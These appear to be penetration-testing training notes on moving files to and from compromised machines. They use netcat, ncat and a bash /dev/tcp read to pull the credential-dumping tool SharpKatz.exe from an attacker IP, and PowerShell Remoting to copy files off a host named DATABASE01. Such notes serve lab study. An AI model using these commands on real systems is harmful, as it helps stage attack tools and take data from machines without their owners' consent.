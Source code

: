 # Misc

### File Transfer with Netcat and Ncat

3. **Netcat - Attack Host - Sending File to Compromised machine**. The option `-q 0` gonna close connection after transferring.

```bash
# Using original netcat
victim$ nc -l -p 8000 > SharpKatz.exe
```

```bash
attacker$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

4. **Ncat - Attack Host - Sending File to Compromised machine**

```bash
# Using Ncat
victim$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

```bash
attacker$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

5. **Sending File as Input to Netcat**

```bash
attacker$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```bash
victim$ nc 192.168.49.128 443 > SharpKatz.exe
```

6. **Sending File as Input to Ncat**

```bash
attacker$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

```bash
victim$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

8. **Sending File from Attacker machine to Compromised using /dev/tcp**

```bash
# Netcat option
attacker$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```bash
# Ncat option
attacker$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

```bash
# Connecting to netcat using /dev/tcp
victim$ 
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### PowerShell Session File Transfer

I know I used to show about PowerShell file transfers in Windows File Transfer section, but there are possibilities when no HTTP, HTTPS or SMB are available. So here we'll use `PowerShell Remoting` aka WinRM. Usually work on TCP/5985 port for HTTP and TCP/5986 port for HTTPS.

1. **Check TCP 5985 Port on DATABASE01**

```powershell
PS C:\carnifex17> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

2. **Create a PowerShell Remoting Session to DATABASE01**

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

3. **Copy samplefile.txt from our Localhost to the DATABASE01 Session**

```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

4. **Copy DATABASE.txt from DATABASE01 Session to our Localhost**

```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```
